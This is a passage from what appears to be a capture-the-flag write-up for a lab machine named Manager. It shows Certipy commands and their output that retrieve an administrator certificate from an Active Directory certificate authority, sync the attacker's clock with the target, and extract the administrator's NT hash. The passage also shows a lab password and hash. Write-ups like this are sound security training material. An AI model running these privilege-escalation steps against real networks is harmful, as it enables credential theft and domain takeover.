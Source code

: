     [*] Successfully issued certificate



Now, the issued certificate can be retrieved using the `req` command:



    oxdf@hacky$ certipy req -ca manager-DC01-CA -target dc01.manager.htb -retrieve 13 -username raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'
    Certipy v4.8.2 - by Oliver Lyak (ly4k)    
                                                                        
    [*] Rerieving certificate with ID 13          
    [*] Successfully retrieved certificate
    [*] Got certificate with UPN 'administrator@manager.htb'
    [*] Certificate has no object SID
    [*] Loaded private key from '13.key'                     
    [*] Saved certificate and private key to 'administrator.pfx'



#### Administrator NTLM

With this certificate as the administrator user, the easiest way to get
a shell is to use it to get the NTLM hash for the user with the `auth`
command. This requires the VM and target times to be in sync, with
otherwise leads to this failure:



    oxdf@hacky$ certipy auth -pfx administrator.pfx -dc-ip manager.htb
    Certipy v4.8.2 - by Oliver Lyak (ly4k)
                                                                        
    [-] Got error: nameserver manager.htb is not an IP address or valid https URL
    [-] Use -debug to print a stacktrace



I'll use `ntpdate` to sync my VM's time to Manager's:



    oxdf@hacky$ sudo ntpdate 10.10.11.236
    13 Mar 17:17:40 ntpdate[252490]: step time server 10.10.11.236 offset +25191.022331 sec



Now it works, leaking the hash:



    oxdf@hacky$ certipy auth -pfx administrator.pfx -dc-ip 10.10.11.236                                   
    Certipy v4.8.2 - by Oliver Lyak (ly4k)

    [*] Using principal: administrator@manager.htb
    [*] Trying to get TGT...
    [*] Got TGT
    [*] Saved credential cache to 'administrator.ccache'
    [*] Trying to retrieve NT hash for 'administrator'
    [*] Got hash for 'administrator@manager.htb': aad3b435b51404eeaad3b435b51404ee:ae5064c2f62317332c88629e025924ef



### WinRM
